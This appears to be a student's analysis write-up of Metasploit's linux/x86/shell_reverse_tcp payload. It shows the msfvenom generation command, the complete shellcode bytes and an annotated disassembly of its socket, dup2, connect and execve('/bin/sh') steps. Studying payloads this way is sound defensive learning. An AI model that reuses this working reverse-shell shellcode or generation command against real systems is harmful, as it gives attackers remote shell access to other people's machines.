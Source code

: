 # linux/x86/shell_reverse_tcp
- Analysis by: William Moody
- PA-25640

First I dumped the shellcode from metasploit.
`msfvenom -p linux/x86/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 -f c`

Next I generated a graph with libemu to visual the system calls.

```
echo -ne "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x7f\x00\x00\x01\x68\x02\x00\x01\xbb\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80" | sctest -vvv -Ss 100000 -G linux-x86-shell_reverse_tcp.dot
dot linux-x86-shell_reverse_tcp.dot -Tpng -o linux-x86-shell_reverse_tcp.png
```

<<INSERT GRAPH HERE>>

I disassembled the shellcode with ndisasm:
```
echo -ne "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x7f\x00\x00\x01\x68\x02\x00\x01\xbb\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80" | ndisasm -u - -b 32 -p intel
```

And I pasted the shellcode into `shellcode.c` and compiled it so that I can
view the observe the functionality in gdb.

`gcc shellcode.c -o shellcode`

Finally I loaded up `./shellcode` into gdb, stepped to the beginning of the
shellcode and began my analysis.

```
b*main+201
r
stepi
```

The first thing the shellcode does is create a socket.

```
int socketcall(int call, unsigned long *args);
int socket(int domain, int type, int protocol);
```

```
00000000  31DB              xor ebx,ebx				; EBX = 0
00000002  F7E3              mul ebx
00000004  B066              mov al,0x66				; EAX = 0x66 (SYS_SOCKETCALL)
00000006  43                inc ebx					; EBX = 1
00000007  52                push edx				; int protocol = 0 (default)
00000008  53                push ebx				; int type = 1 (SOCK_STREAM)
00000009  6A02              push byte +0x2			; int domain = 2 (AF_INET)
0000000B  89E1              mov ecx,esp				; *args = ESP
0000000D  CD80              int 0x80				; socketcall() -> socket()
```

*Note: parts of the shellcode were incorrectly dissasembled by ndisasm, so I 
will be copying the remaining shellcode by hand from gdb.*

Once the socket is created, the shellcode calls SYS_dup2 for STDIN, STDOUT, and
STDERR to be redirected to the socket.

```
int dup2(int oldfd, int newfd);
```

```
0000000F					xchg eax, ebx			; EBX = sockfd
00000010					pop ecx					; ECX = 2
00000011					mov al, 0x3f			; EAX = 0x3f (SYS_dup2)
00000013					int 0x80				; dup2()
00000015					dec ecx					; ECX -= 1
00000016					jns 0x11				; loop until ECX < 0
```

Once the file descriptors are copied, the shellcode uses another socket call to
SYS_CONNECT to connect to the HOST/PORT that was specified when generating the
shellcode with msfvenom.

```
00000018					push 0x0100007f			; 127.0.0.1
0000001D					push 0xbb010002			; 443, AF_INET
00000022					mov ecx, esp			; *args = ESP
00000024					mov al, 0x66			; EAX = 0x66 (SYS_SOCKETCALL)
00000026					push eax				 
00000027					push ecx
00000028					push ebx				
00000029					mov bl, 3				; int call = 3 (SYS_CONNECT)
0000002B					mov ecx, esp			; *args = ESP
0000002D					int 0x80				; socketcall() -> connect()
```

For debugging, I started a netcat listener to receive the connection. 

<<INSERT PICTURE OF NETCAT HERE>>

Once a client is connected, the shellcode finally executes "/bin/sh" and the 
client should have a shell at this point.

```
int execve(const char *pathname, char *const argv[], char *const envp[]);
```

```
0000002F					push edx
00000030					push 0x68732f6e			; "hs//"
00000035					push 0x69622f2f			; "nib/"
0000003A					mov ebx, esp			; *pathname = *"/bin//sh"
0000003C					push edx
0000003D					push ebx
0000003E					mov ecx, esp			; argv[] = {"/bin//sh"}
00000040					mov al, 0xb				; EAX = 0xb (SYS_EXECVE)
00000042					int 0x80				; execve()
```
